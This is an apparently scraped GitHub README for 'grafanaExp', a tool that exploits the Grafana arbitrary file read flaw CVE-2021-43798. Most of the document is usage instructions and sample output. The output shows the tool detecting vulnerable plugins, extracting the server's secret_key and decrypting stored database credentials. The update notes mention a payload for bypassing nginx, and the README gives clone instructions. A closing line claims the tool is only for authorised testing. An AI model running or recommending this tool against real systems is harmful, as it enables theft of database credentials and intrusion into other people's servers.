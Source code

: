 # grafanaExp

A exploit tool for Grafana Unauthorized arbitrary file reading vulnerability (CVE-2021-43798), it can burst plugins / extract secret_key / decrypt data_source info automatic.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/A-D-Team](https://github.com/A-D-Team) |
| Url      | [https://github.com/A-D-Team/grafanaExp](https://github.com/A-D-Team/grafanaExp)                                               |
| Stars    | 221                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2021-43798* exploit* grafana

</details>

## Readme

# grafanaExp

利用grafana CVE-2021-43798任意文件读漏洞，自动探测是否有漏洞、存在的plugin、提取密钥、解密server端db文件，并输出`data_sourrce`信息。

## 使用方法
提供exp和decode功能。
```
➜  ./grafanaExp -h
NAME:
   grafanaExp - Exploit Grafana with CVE-2021-43798 Arbitrary File Read.

USAGE:
   grafanaExp [global options] command [command options] [arguments...]

AUTHOR:
   A&D-Team

COMMANDS:
   exp      -u [url] -p [plugin] -c [config] -d [db] -k [key]
   decode   decode -f [dbfile] -k [key]
   help, h  Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --help, -h  show help (default: false)

```

### Exp
自动探测是否有漏洞、存在的plugin、提取密钥、解密server端db文件，并输出`data_souce`信息：
```
➜  ./grafanaExp exp -u http://localhost:3000/ 
2021/12/07 22:19:10 Target vulnerable has plugin [alertlist]
2021/12/07 22:19:10 Get secret_key [SW2YcwTIb9zpOOhoPsMm]
2021/12/07 22:19:10 type:[mysql]        name:[MySQL_01]         url:[test.mysql.io:3306]        user:[root]     password[rootpassword]  database:[test_dbname]  basic_auth_user:[]      basic_auth_password:[]
2021/12/07 22:19:10 type:[mssql]        name:[Mssql_01]         url:[test_sqlserver:1433]       user:[admin]    password[adminpassword] database:[db_sqlserver] basic_auth_user:[]      basic_auth_password:[]
2021/12/07 22:19:10 type:[elasticsearch]        name:[es_01]            url:[http://localhost:9200]     user:[] password[]      database:[]     basic_auth_user:[basic_user]    basic_auth_password:[basic_pass]
2021/12/07 22:19:10 type:[postgres]     name:[Postgre_01]               url:[Postgre_01:5432]   user:[pppp]     password[sssswwwww]     database:[postgredb]    basic_auth_user:[]      basic_auth_password:[]
2021/12/07 22:19:10 All Done, have nice day!

```

### Decode
当DB文件太大的时候，可先下载到本地，之后再本地解密：
```
➜ ./grafanaExp decode -f grafana.db -k SW2YcwTIb9zpOOhoPsMm
2021/12/07 23:00:20 type:[mysql]        name:[MySQL_01]         url:[test.mysql.io:3306]        user:[root]     password[rootpassword]  database:[test_dbname]  basic_auth_user:[]      basic_auth_password:[]
2021/12/07 23:00:20 type:[mssql]        name:[Mssql_01]         url:[test_sqlserver:1433]       user:[admin]    password[adminpassword] database:[db_sqlserver] basic_auth_user:[]      basic_auth_password:[]
2021/12/07 23:00:20 type:[elasticsearch]        name:[es_01]            url:[http://localhost:9200]     user:[] password[]      database:[]     basic_auth_user:[basic_user]    basic_auth_password:[basic_pass]
2021/12/07 23:00:20 type:[postgres]     name:[Postgre_01]               url:[Postgre_01:5432]   user:[pppp]     password[sssswwwww]     database:[postgredb]    basic_auth_user:[]      basic_auth_password:[]
```

## 更新
```
1、支持https （昨天没加因为 transport会有一些奇奇怪怪的问题
2、增加darwin的执行文件
3、增加绕过nginx的paylaod （裸改了一下net/http
```

## 申明

本程序应仅用于授权的安全测试与研究目的



## Get the content

```
git clone https://github.com/A-D-Team/grafanaExp
cd grafanaExp
```

{% embed url="https://github.com/A-D-Team/grafanaExp" %}

<figure><img src="https://avatars.githubusercontent.com/u/94842031?v=4" alt=""><figcaption><p>A-D-Team</p></figcaption></figure>

